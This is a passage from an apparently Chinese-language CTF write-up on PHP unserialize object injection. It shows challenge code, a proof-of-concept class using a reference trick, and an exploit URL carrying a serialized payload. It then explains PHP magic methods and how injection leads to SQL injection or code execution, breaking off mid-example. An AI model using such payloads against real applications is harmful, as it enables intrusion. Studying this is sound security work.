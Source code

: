     }
    $o = unserialize($pass);
    if ($o) {
        $o->secret = "*";
        if ($o->secret === $o->enter)
            echo "Congratulation! Here is my secret: ".$o->secret;
        else 
            echo "Oh no... You can't fool me";
    }
    else echo "are you trolling?";
}
?>
poc:
<?php 
class just4fun {
    var $enter;
    var $secret;
    function just4fun()
    {
        $this->enter=&$this->secret;
    }
}
echo serialize(new just4fun());
?>
}
exp：http://115.28.150.176/php1/index.php?pass=O:8:"just4fun":2:{s:5:"enter";N;s:6:"secret";R:2;}
magic函数，magic函数命名是以符号__开头的，比如 __construct, __destruct, __toString, __sleep, __wakeup等等。这些函数在某些情况下会自动调用
__construct在对象创建时调用，__destruct在php脚本结束时调用，__toString在对象被当作一个字符串使用时调用，__sleep magic方法在一个对象被序列化的时候调用；__wakeup magic方法在一个对象被反序列化的时候调用。

PHP中的一些魔幻函数：
__construct(), __destruct(), __call(), __callStatic(), __get(), __set(), __isset(), __unset(), __sleep(), __wakeup(), __toString(), __invoke(), __set_state(), __clone(), and __autoload().

如果对象将调用一个不存在的函数__call将被调用；如果对象试图访问不存在的类变量__get和__set将被调用。但是利用这种漏洞并不局限于magic函数，在普通的函数上也可以采取相同的思路。例如User类可能定义一个get方法来查找和打印一些用户数据，但是其他类可能定义一个从数据库获取数据的get方法，这从而会导致SQL注入漏洞。set或write方法会将数据写入任意文件，可以利用它获得远程代码执行。唯一的技术问题是注入点可用的类，但是一些框架或脚本具有自动加载的功能。

<?php  
   
class TestClass  
{  
    // 一个变量     
    public $variable = 'This is a string';  
   
    // 一个简单的方法    
    public function PrintVariable()  
    {  
        echo $this->variable . '<br />';  
    }  
   
    // Constructor    
    public function __construct()  
    {  
        echo '__construct <br />';  
    }  
   